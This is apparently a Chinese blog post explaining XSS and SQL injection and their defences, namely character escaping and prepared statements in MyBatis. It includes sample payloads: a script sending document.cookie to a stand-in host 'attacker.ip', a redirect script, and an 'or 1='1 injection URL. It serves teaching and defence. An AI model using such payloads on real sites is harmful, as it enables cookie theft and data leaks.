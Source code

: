 ```yaml
---
title: xss和sql注入
tags: web安全
categories: 架构设计
abbrlink: 2537856230
date: 2020-01-08 13:46:29
updated: 2020-01-08 14:16:21
---
```

## 目的
    1.避免代码被攻击
    2.如何做到项目安全保障
## 项目安全隐患
    1.代码
    2.业务逻辑
    3.应用

## web安全常用攻击手段
    xss
    sql注入
    防盗链
## 什么是XSS攻击?
    Cross-Site Scripting（跨站脚本攻击）简称 XSS，是一种代码注入攻击。
    攻击者通过在目标网站上注入恶意脚本，使之在用户的浏览器上运行。
    利用这些恶意脚本，攻击者可获取用户的敏感信息如 Cookie、SessionID 等，进而危害数据安全。
    为了和 CSS 区分，这里把攻击的第一个字母改成了 X，于是叫做 XSS。
    
    XSS 的本质是：恶意代码未经过滤，与网站正常的代码混在一起；
    浏览器无法分辨哪些脚本是可信的，导致恶意脚本被执行。
  
## 常见的XSS危害举例
    1.盗取cookie,通过cookie信息伪造请求
       <script>
        // 通过动态构造一个img标签，将当前页面的cookie发送给attack.com
        new Image().src = "http://attacker.ip/" + document.cookie;
       </script>
    2.钓鱼
    eg: 在一个页面提交表单后，到另一个页面展示，可能会受到XSS脚本注入，读取本地cookie远程发送给黑客服务器端。
    eg: 链接中包含用户信息，被第三方拦截，添加js脚本，跳转到钓鱼网站的转账页面，用户未能识别钓鱼网站而被骗
    例如:某wx群分享了一个连接,点击这个连接，打开后的网址和某宝极其相似,比如类似这种www.taoobao.com
    你如果没有区分出网址的错误,而在打开的连接中输入转账信息的表单,这个页面带着你的转账信息+<js跳转转账网址>
    又调到了转账页面,一点击转账,凉了...
    测试脚本:
    <script>alert('sss')</script>
    eg: 比如论坛或者贴吧的评论区,如果不对xss攻击进行处理,比如类似如下这种
    <script>window.location.href='http://www.baidu.com';</script>
    那么当普通用户进入评论页,会自动跳转到www.baidu.com,自己的网站被别人引流了,惨不惨!!
## 如何防御XSS攻击?
    将脚本特殊字符，转换成html源代码进行展示。比如'<' 在html想展示符号内容而不是被浏览器解析,需要转为&lt;
    测试脚本处理后对应html源代码: &lt;script&gt;alert('sss')&lt;/script&gt;
    项目一般处理方式:写一个过滤器,拦截所有请求,将参数中的特殊字符进行过滤处理
     可以借助commons包下工具类,完成特殊字符转换
     <dependency>
        <groupId>commons-lang</groupId>
        <artifactId>commons-lang</artifactId>
        <version>2.6</version>
      </dependency>
      
   ![](/images/security/common.png)
## sql注入
    根据sql语法,输入相关字符,改变原sql形成攻击sql
    如:mybatis 中$符号拼接sql时需要程序员添加',这里当攻击者通过'的技巧输入形成新sql,从而直接对MYSQL进行数据攻击
    eg: select username,password from user where user='${username}' and password='${password}';
    当攻击url: http://ip:port/find?username=zhangsan&password='or 1= '1
    形成攻击sql:select username,password from user where user='zhangsan' and password='' or 1 ='1';
    后果: 可完成查询所有用户数据,用户数据泄露
## 如何防御sql攻击
    1.编写dao层尽量不要使用sql拼接,使用预编译方式,比如mybatis中的#替换$
    2.如果使用了sql拼接,要对入参含有特殊字符进行处理
## MyBatis #与$区别
    #{}: 解析为一个 JDBC 预编译语句（prepared statement）的参数标记符，一个 #{} 被解析为一个参数占位符,可以防止SQL注入问题。
    ${}: 仅仅为一个纯碎的 string 替换，在动态 SQL 解析阶段将会进行变量替换。